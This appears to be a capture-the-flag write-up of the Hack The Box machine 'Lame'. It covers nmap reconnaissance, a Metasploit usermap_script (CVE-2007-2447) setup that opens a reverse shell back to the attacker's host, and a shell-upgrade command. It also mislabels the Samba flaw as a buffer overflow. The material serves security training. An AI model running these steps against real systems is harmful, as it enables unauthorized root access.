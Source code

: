 ```yaml
---
title: Lame
published: true
layout: post
---
```


<br />

---------------
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.3 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![Ports Scan](/assets/Lame/1.png)
<br />
<br />
<br />

There are **5 open ports**:
+ **21/tcp**
+ **22/tcp**
+ **139/tcp**
+ **445/tcp**
+ **3632/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.3 -p 21,22,139,445,3632 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services Scan](/assets/Lame/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp vsftpd 2.3.4**
+ **22/tcp OpenSSH 4.7p1**
+ **139/tcp Samba smbd 3.X - 4.X**
+ **445/tcp Samba smbd 3.0.20**
+ **3632/tcp distccd v1 4.2.4**

<br />

Now we will seek for **vulnerabilities**, however the scan didn't return any useful information.

<br />

------

<br />
### Foothold

This machine was **quite realistic** for one reason, **everything was vulnerable**:
+ The version of **FTP** allowed an **RCE**, however it was **patched**.
+ The version of **OpenSSH** allowed **user enumeration**, and it allowed me to do so, however it didn't return any useful information.
+ The version of **Samba** allowed a **buffer overflow**, and it allowed me to hack into the machine.
+ **DistCC daemon** should have allowed an **RCE**, however it was **patched**.

<br />

I tried every possible working exploit until I found the **Samba** one, which casually was the latest one. The exploit leverages **CVE-2007-2447**, although I found a script from the repository of **un4gi**, it did not work for me, however I encourage everyone to try it as the other tool we can use is **Metasploit**.

We can run Metasploit and configure it by running the following commands:

```bash
sudo msfdb run
use exploit/multi/samba/usermap_script
set lhost tun0
set rhost 10.10.10.3
run
```

![Metasploit Configuration](/assets/Lame/3.png)
<br />
<br />
<br />

We should be now logged in as the **root user**:
![Root Own](/assets/Lame/4.png)
<br />
<br />
<br />

We can **sanitize the shell** and then print the **flags**:

```bash
script /dev/null -c /bin/bash
```

![Flags](/assets/Lame/5.png)
<br />
<br />
<br />

